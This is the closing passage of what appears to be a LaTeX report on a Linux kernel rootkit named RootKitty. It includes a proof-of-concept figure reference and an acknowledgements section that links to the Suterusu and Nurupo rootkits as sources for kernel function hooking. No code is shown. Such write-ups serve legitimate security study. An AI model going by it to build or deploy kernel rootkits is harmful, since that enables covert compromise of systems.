
\includegraphics[width=\textwidth]{poc.png} 


%----------------------------------------------------------------------------------------
%   GREETZ
%----------------------------------------------------------------------------------------
\section{Greetz}
Contrary to popular belief I am not a coding god. Throughout the development of RootKitty I referenced (and appropriated) the source code of both the Linux kernel and as many rootkits I could get my mits on. Credit where credit is due:
\begin{itemize}
\itemsep0em
\item \href{https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/}{Michael Coppola - Suterusu Rootkit}: Where I learnt about ASM hooking.
\item \href{https://github.com/nurupo/rootkit}{Nurupo Rootkit}: I really liked their method of abstracting ASM hooks and their usage of lists.
\item Zerocool: His only crime was curiosity.
\end{itemize}
\subsection{Bonus}
I am almost entirely certain there are exploitable vulnerabilities within this Rootkit. Bonus marks if you can root the rootkit.
\end{document}